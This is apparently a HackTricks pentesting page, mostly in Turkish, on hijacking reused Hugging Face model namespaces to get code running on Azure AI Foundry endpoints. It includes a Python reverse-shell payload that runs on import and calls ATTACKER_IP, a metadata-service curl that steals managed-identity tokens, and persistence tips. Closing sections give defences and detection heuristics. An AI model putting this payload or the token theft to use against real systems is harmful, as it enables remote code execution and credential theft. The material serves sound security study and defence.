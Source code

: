 # Azure - AI Foundry Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## Senaryo

- Azure AI Foundry Model Catalog, tek tıkla dağıtım için birçok Hugging Face (HF) modelini içerir.
- HF model identifiers are Author/ModelName. Eğer bir HF author/org silinirse, herhangi biri o author'ı yeniden kaydettirip aynı ModelName ile legacy path'te bir model yayımlayabilir.
- Pipelines ve catalogs that pull by name only (no commit pinning/integrity) attacker-controlled repos'a çözümlenir. When Azure deploys the model, loader code endpoint environment'da çalışabilir ve o endpoint’in permissions'larıyla RCE sağlar.

Common HF takeover cases:
- Ownership deletion: Eski path takeover'a kadar 404 olur.
- Ownership transfer: Eski path 307 yeni author'a yönlendirilir while eski author var olduğu sürece. Eğer eski author daha sonra silinir ve yeniden kaydı yapılırsa, redirect bozulur ve attacker’s repo legacy path'te hizmet verir.

## Yeniden Kullanılabilir Namespace'leri Belirleme (HF)
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>        # 200 exists, 404 deleted/available

# Check model path
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 -> redirect (transfer case), 404 -> deleted until takeover
```
## Azure AI Foundry'ye Karşı Uçtan Uca Saldırı Akışı

1) Model Catalog'ta, orijinal yazarı HF üzerinde silinmiş veya transfer edilmiş (eski yazar kaldırılmış) HF modellerini bulun.  
2) Terk edilmiş yazarı HF üzerinde yeniden kaydedin ve ModelName'i yeniden oluşturun.  
3) İçe aktarımda çalışan veya trust_remote_code=True gerektiren loader code içeren kötü amaçlı bir repo yayınlayın.  
4) Azure AI Foundry'dan legacy Author/ModelName'i dağıtın. Platform saldırganın reposunu çeker; loader, Azure endpoint container/VM içinde çalışır ve endpoint izinleriyle RCE sağlar.

İçe aktarım sırasında çalıştırılan örnek payload fragmanı (sadece gösterim amaçlı):
```python
# __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # or powershell on Windows images

if os.environ.get("AZUREML_ENDPOINT","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Notlar
- AI Foundry dağıtımları HF ile entegre olduğunda genellikle modelin konfigürasyonunda referans verilen repo modüllerini (ör. auto_map) klonlayıp içe aktarır; bu kod çalıştırmayı tetikleyebilir. Bazı yollar için trust_remote_code=True gerekir.
- Erişim genellikle endpoint’in managed identity/service principal izinleriyle eşleşir. Bunu Azure içinde veri erişimi ve lateral movement için bir initial access foothold olarak değerlendirin.

## Post-Exploitation Tips (Azure Endpoint)

- Tokenlar için environment değişkenlerini ve MSI endpoint’lerini enumerate edin:
```bash
# Azure Instance Metadata Service (inside Azure compute)
curl -H "Metadata: true" \
"http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```
- Edinilen token ile monte edilmiş depolamayı, model artifaktlarını ve erişilebilir Azure servislerini kontrol edin.
- Platform HF'den yeniden çekme yapıyorsa, zehirlenmiş model artifaktları bırakarak persistence'i değerlendirin.

## Azure AI Foundry Kullanıcıları için Savunma Rehberi

- HF'den yüklerken modelleri commit'e göre sabitleyin:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- Doğrulanmış HF modellerini güvenilir bir iç registry'ye yansıtın ve oradan dağıtın.
- Kod tabanlarını ve defaults/docstrings/notebooks içinde hard-coded Author/ModelName'leri (silinmiş/transfer edilmiş olanları) sürekli tarayın; güncelleyin veya pinleyin.
- Dağıtımdan önce author varlığını ve model kökenini doğrulayın.

## Tanıma Heuristikleri (HTTP)

- Silinmiş author: author sayfası 404; legacy model yolu devralma olana kadar 404 döner.
- Transfer edilmiş model: legacy path 307 ile yeni author'a yönlendirilir, eski author var olduğu sürece; eğer eski author daha sonra silinir ve yeniden kayıt olursa, legacy path saldırgan içeriği sunar.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## Çapraz Referanslar

- Daha geniş metodoloji ve tedarik zinciri notlarına bakın:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## Kaynaklar

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
